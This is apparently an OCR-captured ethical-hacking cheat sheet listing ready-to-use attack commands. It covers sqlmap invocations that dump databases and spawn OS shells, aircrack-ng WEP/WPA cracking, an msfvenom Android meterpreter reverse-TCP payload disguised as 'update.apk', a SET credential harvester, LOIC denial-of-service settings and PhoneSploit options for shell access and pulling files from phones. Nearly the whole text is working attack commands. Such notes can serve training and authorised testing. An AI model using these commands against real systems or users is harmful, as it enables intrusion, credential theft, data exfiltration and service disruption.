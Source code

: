     # SQLmap
	sqlmap --url <vulernerable-url> --cookie "" --dbs
	sqlmap --url <vulernerable-url> --cookie "" -D "database" --tables
	sqlmap --url <vulernerable-url> --cookie "" --D "database" -T "table_name" --dump
	sqlmap --url <vulernerable-url> --cookie "" --D "database" -T "table_name" --dump-all
	sqlmap --url <vulernerable-url> --cookie "" --D "database" -T "table_name" --os-shell
	sqlmap --url <vulernerable-url> --cookie "" --D "database" -T "table_name" --os-pwn

	sqlmap -u "http://192.168.44.40" --crawl=3 --level=5 --risk=3 --dbs
	sqlmap --url http://10.10.95.177/blood/blood.php --cookie="" --crawl=3 --level=5 --risk=3 --dbs
	
	POST-REQUEST
		sqlmap -r req.txt -p blood_group --dbs	(-p is testable parameter for the post request)

	GET-REQUEST
		sqlmap -u https://testsite.com/page.php?id=7 --dbs

    # DSSS
	python3 dsss.py -u "http://www.target.com/page.php?id=1" --cookie=""

    # OwaspZAP (detect SQLi)
	Automated Scan -> Go to "Alerts" -> SQL Injection


## Wireless Hacking 16

	aircrack-ng WEPcrack-01.cap
 	aircrack-ng WPA.cap -w wordlist.txt
	aircrack-ng -a 2 -b <bssid> WPA2crack-01.cap -w wordlist.txt
	
## Hacking Mobile Platforms 17

	msfvenom -p android/meterpreter/reverse_tcp lhost=<ip> lport=4477 -o update.apk

	setoolkit	(credential harvester)

	dos attack with LOIC
		http://<ip> -> GET IP -> TCP -> port 80 -> threads 100
	
	PhoneSploit	(0 to clear, b previous page, p next page)
		0 = Clear Screen
		p = Next Page
		b = Back to previous page
		4 = Access shell on phone
		9 = Pull File and folder from phone to pc
		7 = Screenshot
		14 = list all apps on phone
		15 = run an app
		18 = Show Mac/Inet
		21 = Netstat
		24 = Use Keycode

